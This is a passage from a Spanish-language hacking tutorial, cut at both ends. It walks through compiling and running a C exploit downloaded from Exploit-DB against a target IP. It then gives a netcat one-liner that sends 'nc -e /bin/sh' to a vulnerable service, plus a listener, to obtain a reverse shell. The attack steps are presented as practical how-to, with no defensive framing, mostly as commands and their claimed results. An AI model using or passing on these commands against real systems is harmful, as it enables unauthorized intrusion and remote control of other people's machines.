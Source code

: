 ✔ ¡Ya tienes SHELL!

---

### ✅ 7️⃣ Otro ejemplo: Exploit en C

✅ Descargaste exploit.c desde Exploit-DB.

---

#### ✅ A) Compilarlo

```bash
gcc exploit.c -o exploit
```

---

#### ✅ B) Ejecutarlo

```bash
./exploit 192.168.1.10 9999
```

---

✅ Resultado:

✔ Se conecta al objetivo.

✔ Envía payload.

✔ Ejecuta shellcode.

✔ Consigues shell.

---

### 🌟 ✅ 8️⃣ Ejemplo ultra simple con Netcat

✅ Si el servicio es MUY vulnerable y acepta comandos directamente:

```bash
echo "nc -e /bin/sh TU_IP 4444" | nc 192.168.1.10 1337
```

✅ En tu máquina:

```bash
nc -lvnp 4444
```

✅ Resultado:

```
Shell conectada
```

---

### ✅ 9️⃣ Consejos prácticos
